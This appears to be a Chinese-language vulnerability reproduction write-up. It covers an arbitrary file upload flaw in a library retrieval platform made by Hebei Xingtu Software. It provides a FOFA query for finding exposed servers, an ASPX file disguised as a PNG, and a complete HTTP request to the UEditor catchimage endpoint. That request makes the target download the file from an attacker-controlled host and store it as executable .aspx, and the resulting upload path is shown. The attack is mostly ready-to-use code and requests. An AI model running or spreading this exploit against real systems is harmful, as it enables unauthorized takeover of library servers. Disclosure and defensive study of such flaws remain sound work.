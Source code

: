 # 一、漏洞简介
河北兴图软件科技有限公司基于互联网+图书馆全新的理念自主研发了一系列网页版图书馆集群管理系统，正式推出基础版、标准版、增强版和专业版等版本，适合各类型图书馆需求。图书检索平台存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 图书检索平台

# 三、资产测绘
+ fofa`body="Images/public/yes.png"`
+ 特征

![](images/1724579424545-e9f8ab08-0234-45a8-b5a0-b39b77b1088d.png)

# 四、漏洞复现
1. 新建文件1.png

```java
<%@ Page Language="C#"%>
<%
Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("123456", "MD5"));
System.IO.File.Delete(Request.PhysicalPath);
%>
```

2. 上传文件

```java
POST /Scripts/ueditor/net/controller.ashx?action=catchimage HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 17

source[]=http://ip:7777/1.png?.aspx
```

![](images/1724583751012-e2408f56-5a47-4ac6-b4fc-4e6c0a87ea11.png)

```java
/upload/Images/0205820a-35b0-4021-ab5d-ecbeca74331e.aspx
```

![](images/1724650664910-59e547dc-3251-4e84-888b-58ffe9ca654f.png)

